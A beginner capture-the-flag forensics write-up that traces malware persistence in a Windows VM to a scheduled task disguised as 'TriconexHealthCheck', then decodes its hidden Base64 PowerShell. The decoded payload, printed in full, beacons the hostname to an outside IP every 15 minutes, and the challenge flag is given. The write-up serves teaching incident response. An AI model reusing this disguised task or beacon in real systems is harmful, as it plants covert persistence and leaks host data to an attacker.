

# Boot Survivor [2.8]

## Challenge

<p align="center">
  
</p>

## Solution

# PETCTF 2026 Prelim — Kerteh / "Boot Survivor [2/8]" — Beginner Writeup

> **Challenge folder:** `Kerteh/1 - Infected Package` (Reuses the same VM)
> **Category:** Forensics
> **Files used:** The `extracted_vm` folder from challenge [1/8]
> **Flag format:** `PETRONAS{...}`
> **Final Flag:** `PETRONAS{SCH3DUL3D_B34C0N}`

This writeup assumes you are new to CTFs and digital forensics. We will walk through how to find malware that survives a system reboot (Persistence), how to read Windows Scheduled Task files, and how to decode another hidden PowerShell payload.

---

## 1. Challenge Overview

The challenge description gives us the core hint:
> *"The workstation was rebooted twice during the investigation window. Whatever was running came back every time. Something is anchored deep enough to survive a restart."*

**Breakdown of the clues:**
*   **"Came back every time" / "Survive a restart"**: In incident response, this is called **Persistence**. The attacker has set up a mechanism that tells Windows, "Hey, run my malware every time the computer turns on."
*   **Where does Windows do this?**
    1.  **Startup Folders** (The easiest place for beginners).
    2.  **Scheduled Tasks** (The most common place for modern malware).
    3.  **Registry Run Keys** (A bit harder to read without tools).

We already have the Windows file system extracted from the previous challenge. Let's hunt for the persistence mechanism.

---

## 2. Step 1 — Triage (Where to look)

First, make sure you are in the `extracted_vm` directory:
```bash
cd ~/Downloads/PETCTF2026PrelimWriteup/Kerteh/1\ -\ Infected\ Package/extracted_vm
```

### Check the Startup Folders
It's good practice to quickly check the user and system startup folders:
```bash
ls -la "Users/a.rahman/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
ls -la "ProgramData/Microsoft/Windows/Start Menu/Programs/Startup/"
```
*(In this VM, these folders were empty. No malware here.)*

### Ignore the `[SYSTEM]` Folder
You might see a folder called `[SYSTEM]` at the root. If you look inside, you'll see files like `$MFT` and `$LogFile`. This is just raw NTFS file system metadata extracted by 7-Zip. It is **not** malware. We can ignore it.

---

## 3. Step 2 — Hunting Scheduled Tasks

Scheduled Tasks are the favorite persistence method for modern attackers because they can run invisibly in the background as the SYSTEM user.

Windows stores these tasks as XML files inside `C:\Windows\System32\Tasks\`. Let's list that directory:

```bash
ls -la Windows/System32/Tasks/
```

**Output:**
```text
drwxrwxr-x   4 kali kali    4096 Nov 11 20:45 Microsoft
-rw-rw-r--   1 kali kali    4502 Nov 11 04:55 TriconexHealthCheck
```

We see a custom task named **`TriconexHealthCheck`**. This is highly suspicious. It looks like a legitimate industrial control system check, but it was created recently. 

---

## 4. Step 3 — Analyzing the Malware

Let's read the XML file to see exactly what this task does:

```bash
cat Windows/System32/Tasks/TriconexHealthCheck
```
*(Note: The output might start with a weird character ``. This is because the file is encoded in UTF-16, but the `cat` command reads it as UTF-8. Don't worry, the text is still readable).*

Look closely at the XML structure:
*   **`<Triggers>`**: It has `<LogonTrigger>`. This means the moment a user logs in, the malware runs.
*   **`<Actions>`**: This is where the actual command is executed.

Inside the `<Arguments>` tag, we see the exact same trick as the first challenge:
```xml
<Arguments>-WindowStyle Hidden -ep Bypass -enc dwBoAGkAbABlACgAJAB0AHIAdQBlACkAewB0AHIAeQB7ACQAYgA9AGgAbwBzAHQAbgBhAG0AZQA7AEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAOgAvAC8AMQA4ADUALgAxADQAMQAuADIANwAuADkAMwA6ADgANAA0ADMALwBiAGUAYQBjAG8AbgAiACAALQBNAGUAdABoAG8AZAAgAFAATwBTAFQAIAAtAEIAbwBkAHkAIAAkAGIAIAAtAEUAQQAgAFMAdABvAHAAfQBjAGEAdABjAGgAewB9ADsAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAAOQAwADAAfQAgACMAIABQAEUAVABSAE8ATgBBAFMAewBTAEMASAAzAEQAVQBMADMARABfAEIAMwA0AEMAMABOAH0A</Arguments>
```

The attacker is using `powershell.exe` with the `-enc` flag to run a Base64-encoded script.

---

## 5. Step 4 — Decoding the Payload

PowerShell uses **Base64 encoded UTF-16LE** text. We have to decode it and convert it to standard UTF-8 to read it.

Copy the long string after `-enc ` and run this exact command in your terminal:

```bash
echo "dwBoAGkAbABlACgAJAB0AHIAdQBlACkAewB0AHIAeQB7ACQAYgA9AGgAbwBzAHQAbgBhAG0AZQA7AEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgAC0AVQByAGkAIAAiAGgAdAB0AHAAOgAvAC8AMQA4ADUALgAxADQAMQAuADIANwAuADkAMwA6ADgANAA0ADMALwBiAGUAYQBjAG8AbgAiACAALQBNAGUAdABoAG8AZAAgAFAATwBTAFQAIAAtAEIAbwBkAHkAIAAkAGIAIAAtAEUAQQAgAFMAdABvAHAAfQBjAGEAdABjAGgAewB9ADsAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAAOQAwADAAfQAgACMAIABQAEUAVABSAE8ATgBBAFMAewBTAEMASAAzAEQAVQBMADMARABfAEIAMwA0AEMAMABOAH0A" | base64 -d | iconv -f UTF-16LE -t UTF-8
```

**Decoded Output:**
```powershell
while($true){try{$b=hostname;Invoke-WebRequest -Uri "http://185.141.27.93:8443/beacon" -Method POST -Body $b -EA Stop}catch{};Start-Sleep 900} # PETRONAS{SCH3DUL3D_B34C0N}
```

### What does the malware do?
*   `while($true)`: It runs forever in an infinite loop.
*   `$b=hostname`: It gets the computer's name.
*   `Invoke-WebRequest`: It sends a POST request containing the hostname to the attacker's server (`185.141.27.93`) every 900 seconds (15 minutes).
*   This is called "Beaconing." It checks in with the attacker to let them know the computer is alive and ready for commands.

Just like the first challenge, the author left the flag hidden as a comment at the very end of the script.

---

## 6. The Flag

**`PETRONAS{SCH3DUL3D_B34C0N}`**

---

## 7. Cheat Sheet — Commands Used

```bash
# 1. Check for Startup persistence
ls -la "Users/a.rahman/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"

# 2. Check Scheduled Tasks
ls -la Windows/System32/Tasks/

# 3. Read the malicious task
cat Windows/System32/Tasks/TriconexHealthCheck

# 4. Decode the PowerShell Base64 payload
echo "BASE64_STRING_HERE" | base64 -d | iconv -f UTF-16LE -t UTF-8
```

## Flag

```text
PETRONAS{SCH3DUL3D_B34C0N}
```
